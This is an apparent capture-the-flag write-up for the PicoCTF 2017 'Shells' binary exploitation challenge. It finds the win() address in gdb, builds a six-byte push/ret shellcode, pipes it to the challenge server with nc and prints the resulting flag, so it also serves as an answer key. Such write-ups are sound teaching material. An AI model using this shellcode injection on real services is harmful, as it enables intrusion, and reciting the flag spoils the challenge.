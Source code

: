# PicoCTF 2017- Level 2 - Binary Exploitation 2

**Title:** Shells  
**Category:** Binary Exploitation  
**Points:** 70  
**Description:**

>How much can a couple bytes do? Use [shells](shells)! [Source](shells.c). Connect on shell2017.picoctf.com:17533.  

**Hint:**

>Read about basic shellcode  
>You don't need a full shell (yet...), just enough to get the flag  

## Solution

This problem is more complex than the previous one. By openning the source file we see that we can only submit 10 bytes of data, which is not enough to contain a shell.  
But, looking at the source we can also see the function:
```C
void win(){  
    system("/bin/cat ./flag.txt");  
}  
```

So our job here is to create code to call the function `win()` that will give us the flag. First, let's start gdb:  
    $ gdb  
    (gdb) file ./shells  

Now that our programs is loaded in gdb, let's find the address of the `win()` function:

    (gdb) info functions  
    All defined functions:  
      
    Non-debugging symbols:  
    0x08048378  _init  
    0x080483b0  read@plt  
    0x080483c0  printf@plt  
    0x080483d0  fflush@plt  
    0x080483e0  puts@plt  
    0x080483f0  system@plt  
    0x08048400  __gmon_start__@plt  
    0x08048410  exit@plt  
    0x08048420  mmap@plt  
    0x08048430  __libc_start_main@plt  
    0x08048440  _start  
    0x08048470  __x86.get_pc_thunk.bx  
    0x08048480  deregister_tm_clones  
    0x080484b0  register_tm_clones  
    0x080484f0  __do_global_dtors_aux  
    0x08048510  frame_dummy  
    0x08048540  win  
    0x08048560  vuln  
    0x08048610  main  
    0x08048670  __libc_csu_init  
    [...]  

We can see that the win function is at the address `0x08048540`. So our shell code will look like this:  
    \x68               |  push  
    \x40\x85\x04\x08   |  win()  
    \xc3               |  ret  

Now let's create the shellcode:  
    $ python -c "print('\x68\x40\x85\x04\x08\xc3')" > shellcode  
    $ cat shellcode - | nc shell2017.picoctf.com 17533  
    My mother told me to never accept things from strangers  
    How bad could running a couple bytes be though?  
    Give me 10 bytes:  
    4350d27b024f8597f10b98f164f0fc43  

Thus the flag for this one is `4350d27b024f8597f10b98f164f0fc43`